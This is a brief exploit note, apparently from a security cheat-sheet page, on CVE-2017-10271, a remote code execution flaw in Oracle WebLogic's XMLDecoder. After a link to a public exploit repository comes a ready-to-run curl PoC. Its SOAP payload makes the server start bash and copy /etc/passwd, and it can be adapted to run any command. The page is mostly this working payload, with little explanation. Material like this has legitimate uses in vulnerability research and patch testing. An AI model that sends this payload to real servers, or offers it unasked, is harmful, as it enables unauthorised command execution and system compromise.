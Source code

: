 ### CVE-2017-10271 - java.beans.XMLDecoder RCE

参考资料 

* [c0mmand3rOpSec/CVE-2017-10271 - weblogic exploit](https://github.com/c0mmand3rOpSec/CVE-2017-10271)

Poc

```
curl http://127.0.0.1:7011/wls-wsat/CoordinatorPortType -H 'Content-Type: text/xml' --data '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java version="1.8.0_151" class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index = "0"><string>bash</string></void><void index = "1"><string>-c</string></void><void index = "2"><string>cp /etc/passwd /tmp/hacked</string></void></array><void method="start"/></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
```
